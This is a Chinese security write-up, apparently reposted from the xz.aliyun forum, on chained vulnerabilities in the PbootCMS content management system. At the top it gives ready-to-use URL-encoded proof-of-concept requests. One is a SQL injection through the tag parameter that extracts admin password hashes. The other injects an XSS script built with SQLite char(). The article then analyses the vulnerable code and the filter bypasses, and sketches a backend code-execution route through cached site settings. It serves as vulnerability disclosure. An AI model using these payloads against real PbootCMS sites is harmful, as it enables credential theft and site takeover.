





# pbootcms前台sql注入XSS再到后台rce-先知社区

> **来源**: https://xz.aliyun.com/news/17812  
> **文章ID**: 17812

---

# 影响&POC

github最新版本为3.2.10，gitee最新版本是3.2.5，这两个版本测试过后都是可以利用成功的。

一个是sql注入，然后简单延申了一下也可以造成xss。进入后台后是可以进行rce的。

**sql injection**

`http://pbootcms.learn/index.php?tag=ccc%3A%7Bpboot%3Alist%20filter%3D1%3D2)UNION%2F**%2FSELECT%2F**%2F1%2C2%2C3%2C4%2C5%2C(select%2F**%2Fpassword%2F**%2Ffrom%2F**%2Fay_user)%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%2C28%2C29%2F**%2F--%2F**%2F%7C123%20scode%3D123%7D%5Blist%3Alink%20link%3Dasd%5D%7B%2Fpboot%3Alist%7D`

**XSS**

`http://pbootcms.learn/index.php?tag=xxx%3A%7Bpboot%3Alist%20filter%3D1%3D2)UNION%2F**%2FSELECT%2F**%2F1%2C2%2C3%2C4%2C5%2C(select%2F**%2Fchar(34%2C62%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C97%2C108%2C101%2C114%2C116%2C40%2C49%2C41%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C60%2C34))%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%2C28%2C29%2F**%2F--%2F**%2F%7C123%20scode%3D123%7D%5Blist%3Alink%20link%3Dasd%5D%7B%2Fpboot%3Alist%7D`

这里先放出poc。然后简单分析一下漏洞和分享一下心路历程。

# get()

这个框架是由这个函数来传递`$_GET`参数的。post传参也是同理。

```
handle.php:376, escape_string()
helper.php:456, filter()
helper.php:484, get()
```

然后最后在escape\_string中会经过两个函数的处理。

```
## 防止跨站脚本攻击 (XSS)
$string = htmlspecialchars(trim($string), ENT_QUOTES, 'UTF-8');
## 防止SQL注入攻击
$string = addslashes($string);
```

# TagController

apps/home/controller/TagController.php

```
public function index()
{
    // 在非兼容模式接受地址第二参数值
    if (defined('RVAR')) {
        $_GET['tag'] = RVAR;
    }

    if (! get('tag')) {
        _404('您访问的页面不存在，请核对后重试！');
    }

    $tagstpl = request('tagstpl');
    if (! preg_match('/^[\w]+\.html$/', $tagstpl)) {
        $tagstpl = 'tags.html';
    }
    $content = parent::parser($this->htmldir . $tagstpl); // 框架标签解析
    $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
    $content = $this->parser->parserPositionLabel($content, 0, '相关内容', Url::home('tag/' . get('tag'))); // CMS当前位置标签解析
    $content = $this->parser->parserSpecialPageSortLabel($content, - 2, '相关内容', Url::home('tag/' . get('tag'))); // 解析分类标签
    $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
    $this->cache($content, true);
}
```

正常情况下应该这样访问的。

`/index.php?p=tag&tag=bnbbb` 这样去访问的话tag这个参数的值就会变成index。我们这里直接传入tag参数。

apps/home/controller/IndexController.php 中empty()经过一些处理之后也会走到这个地方。

`/index.php?tag=cccc`

在parserPositionLabel的时候会将我们tag传递的参数添加入我们的content里面。

然后 parserAfter()->parserListLabel()

根据这个正则匹配规则.然后编写我们的标签。

`{pboot:list filter=1=2)UNION/**/SELECT/**/1,2,3,4,5,(select/**/password/**/from/**/ay_user/**/limit/**/0,1),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29/**/#/**/|123 scode=123}[list:link link=asd]{/pboot:list}`

截取parserListLabel里面的部分关键代码。

```
    public function parserListLabel($content, $cscode = '')
    {
        $pattern = '/\{pboot:list(\s+[^}]+)?\}([\s\S]*?)\{\/pboot:list\}/';

        if (preg_match_all($pattern, $content, $matches)) {

            for ($i = 0; $i < count($matches[0]); $i++) {

                $params = $this->parserParam($matches[1][$i]);

                ........................
                if ($cscode && !array_key_exists('scode', $params)) { 
                    $scode = $cscode;
                    $page = true; 
                } elseif (!$cscode && array_key_exists('scode', $params)) { 
                    $scode = $params['scode'];
                    $page = false;
                } else {
                    continue;  // 不能走到这个地方。scode不能为空。
                }
                ...................... 
                // 分离参数
                foreach ($params as $key => $value) {
                    switch ($key) {
                .......................
                        case 'filter':
                            $filter = $value;
                            break;
                ............................
                    }
                }

                // filter数据筛选
                $where1 = array();
                if ($filter) {
                    $filter = explode('|', $filter);
                    if (count($filter) == 2) {
                        $filter_arr = explode(',', $filter[1]);
                        if ($filter[0] == 'title') {
                            $filter[0] = 'a.title';
                        }
                        foreach ($filter_arr as $value) {
                            if ($value) {
                                if ($fuzzy) {
                                    $where1[] = $filter[0] . " like '%" . escape_string($value) . "%'";
                                } else {
                                    $where1[] = $filter[0] . "='" . escape_string($value) . "'";
                                }
                            }
                        }
                    }
                }

                // tags数据参数筛选
                $where2 = array();
                if ($tags) {
                    $tags_arr = explode(',', $tags);
                    foreach ($tags_arr as $value) {
                        if ($value) {
                            if ($fuzzy) {
                                $where2[] = "a.tags like '%" . escape_string($value) . "%'";
                            } else {
                                $where2[] = "a.tags='" . escape_string($value) . "'";
                            }
                        }
                    }
                }
                ...........................

                $data = $this->model->getList($scode, $num, $order, $where1, $where2, $where3, $fuzzy, $start, $lfield, null, $page);
                // 最后将data里面的数据输出到前端页面。

    }
```

最后在getList()中这个else分支里面，获取sql中的数据并返回

```
if($page){
    return parent::table('ay_content a ' . $indexSql)->field($fields)
        ->where($scode_arr, 'OR')
        ->where($where)
        ->where($select, 'AND', 'AND', $fuzzy)
        ->where($filter, 'OR')
        ->where($tags, 'OR')
        ->join($join)
        ->order($order)
        ->page(1, $num, $start)
        ->decode()
        ->select();
}else{
    return parent::table('ay_content a ' . $indexSql)->field($fields)
        ->where($scode_arr, 'OR')
        ->where($where)
        ->where($select, 'AND', 'AND', $fuzzy)
        ->where($filter, 'OR')
        ->where($tags, 'OR')
        ->join($join)
        ->order($order)
        ->limit($start - 1, $num)
        ->decode()
        ->select();
}
```

最后的sql语句是这个样子。

```
SELECT  a.id,a.scode,a.subscode,a.title,a.filename,a.outlink,a.date,a.ico,a.pics,a.content,a.enclosure,a.keywords,a.description,a.istop,a.isrecommend,a.isheadline,b.name as sortname,b.filename as sortfilename,c.name as subsortname,c.filename as subfilename,d.type,d.name as modelname,d.urlname,e.*,f.gcode FROM ay_content a   LEFT JOIN ay_content_sort b INDEXED BY `ay_content_sort_scode`  ON a.scode=b.scode LEFT JOIN ay_content_sort c INDEXED BY `ay_content_sort_scode`  ON a.subscode=c.scode LEFT JOIN ay_model d INDEXED BY  `ay_model_mcode`  ON b.mcode=d.mcode LEFT JOIN ay_member_group f ON a.gid=f.id LEFT JOIN ay_content_ext e INDEXED BY  `ay_content_ext_contentid`  ON a.id=e.contentid WHERE(a.scode in ('123') OR a.subscode='123') AND(a.status=1 AND d.type=2 AND a.date<'2025-04-17 15:45:35') AND(1=2)UNION/**/SELECT/**/1,2,3,4,5,(select/**/password/**/from/**/ay_user/**/limit/**/0,1),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29/**/#/**/ like '%123%')   ORDER BY a.istop DESC,a.isrecommend DESC,a.isheadline DESC,a.sorting ASC,a.date DESC,a.id DESC  LIMIT 15 OFFSET 0
```

总之就是闭合括号，然后`--`注释掉后面内容。完成sql注入。如果是mysql数据库，`--`换成 # 即可

`1=2)UNION/**/SELECT/**/1,2,3,4,5,(select/**/password/**/from/**/ay_user/**/limit/**/0,1),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29/**/--/**/ like '%123%') ORDER BY a.istop DESC,a.isrecommend DESC,a.isheadline DESC,a.sorting ASC,a.date DESC,a.id DESC LIMIT 15 OFFSET 0`

这个密码是md5加密过的。



# XSS

既然这个地方可以查ay\_user表中的内容。那我们也可以让select输出任何东西。但是get出传入的参数又会经过这两个处理。

```
## 防止跨站脚本攻击 (XSS)
$string = htmlspecialchars(trim($string), ENT_QUOTES, 'UTF-8');
## 防止SQL注入攻击
$string = addslashes($string);
```

如果是mysql的话直接16进制绕过即可。但是这个框架默认是sqlite。不支持这样写。而且sqlite没有unhex函数。

`select 0X223E3C7363726970743E616C6572742831293C2F7363726970743E3C22`

然后我找到了这样一个函数 <https://sqlite.org/lang_corefunc.html#char>

于是便有了如下poc

`http://pbootcms.learn/?tag=xxx%3A%7Bpboot%3Alist%20filter%3D1%3D2)UNION%2F**%2FSELECT%2F**%2F1%2C2%2C3%2C4%2C5%2C(select%2F**%2Fchar(34%2C62%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C97%2C108%2C101%2C114%2C116%2C40%2C49%2C41%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C60%2C34))%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%2C28%2C29%2F**%2F--%2F**%2F%7C123%20scode%3D123%7D%5Blist%3Alink%20link%3Dasd%5D%7B%2Fpboot%3Alist%7D`



# 后台RCE

core/function/handle.php

这里有一个decode\_string会进行html实体解码。

```
function decode_string($string)
{
    if (! $string)
        return $string;
    if (is_array($string)) { // 数组处理
        foreach ($string as $key => $value) {
            $string[$key] = decode_string($value);
        }
    } elseif (is_object($string)) { // 对象处理
        foreach ($string as $key => $value) {
            $string->$key = decode_string($value);
        }
    } else { // 字符串处理
        $string = stripcslashes($string);
        $string = htmlspecialchars_decode($string, ENT_QUOTES);
        $string = preg_replace_r('/pboot:if/i', 'pboot@if', $string); // 避免解码绕过问题
    }
    return $string;
}
```

找寻调用其的地方的时候。



```
case 'statistical':
    if (isset($data->statistical)) {
        $content = str_replace($matches[0][$i], decode_string($data->statistical), $content);
    } else {
        $content = str_replace($matches[0][$i], '', $content);
    }
case 'copyright':
    if (isset($data->copyright)) {
        $content = str_replace($matches[0][$i], $this->adjustLabelData($params, decode_string($data->copyright)), $content);
    } else {
        $content = str_replace($matches[0][$i], '', $content);
    }
```

提交的时候这些数据都是post方式提交过去的。开头说过会经过这两个函数的处理。

```
## 防止跨站脚本攻击 (XSS)
$string = htmlspecialchars(trim($string), ENT_QUOTES, 'UTF-8');
## 防止SQL注入攻击
$string = addslashes($string);
```

我们要找会经过decode\_string处理过的数据。对应的就是下面这两个地方。这里插入我们的恶意代码。



点击由上面那个清理所有缓存过后。访问网站首页。然后而已代码就写进了缓存文件，然后再次访问首页加载缓存文件然后执行我们的而已代码。


